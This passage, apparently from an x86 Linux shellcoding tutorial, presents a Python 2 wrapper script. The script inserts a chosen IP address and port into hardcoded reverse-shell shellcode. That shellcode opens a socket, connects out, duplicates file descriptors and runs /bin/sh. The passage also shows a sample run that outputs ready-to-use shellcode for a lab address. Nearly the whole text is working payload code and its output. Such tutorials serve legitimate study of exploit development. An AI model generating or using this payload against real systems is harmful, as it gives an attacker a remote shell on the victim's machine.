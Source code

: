 
## Wrapper ##
Last task was to make IP address and port arguments easily configurable. 
Suggested way is to create wrapper. 
To create wrapper, we need to find where IP and port number are located. 
When we know the location of IP address and port, we can place dummy substring "IPADD" and "PORT" in opcode and replace it with given IP address and port number.

```
import sys

shell = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xb2\\x06\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x31\\xc9\\x51\\x68IPADD\\x66\\x68PORT\\x66\\x6a\\x02\\x89\\xfb\\x89\\xe1\\xb2\\x16\\xcd\\x80\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) != 3:
   print 'Usage: wrapper.py <ip> <port>'
   sys.exit(-1)

else:
   ip = sys.argv[1].split(".")
   port_number = sys.argv[2]


   ip_hex = "\\x" + ((hex(int(ip[0]))).replace("0x","")).zfill(2) + "\\x" + ((hex(int(ip[1]))).replace("0x","")).zfill(2) + "\\x" + ((hex(int(ip[2]))).replace("0x","")).zfill(2) + "\\x" + ((hex(int(ip[3]))).replace("0x","")).zfill(2)

   shell = shell.replace("IPADD", ip_hex)

   port_number = int(port_number)
   port_number = hex(port_number)
   port_num = port_number.replace("0x","")
   if len(port_num) < 4:
      port_num = "0" + str(port_num)
 
   port_num1 = str(port_num[:2])
   port_num2 = str(port_num[2:])

   port_hex = "\\x" + port_num1 + "\\x" + port_num2

   shell = shell.replace("PORT", port_hex)

   print shell
```
For test we will generate reverse shell code for port 5000:

```
python wrapper.py 192.168.192.159 5000
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x13\x88\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
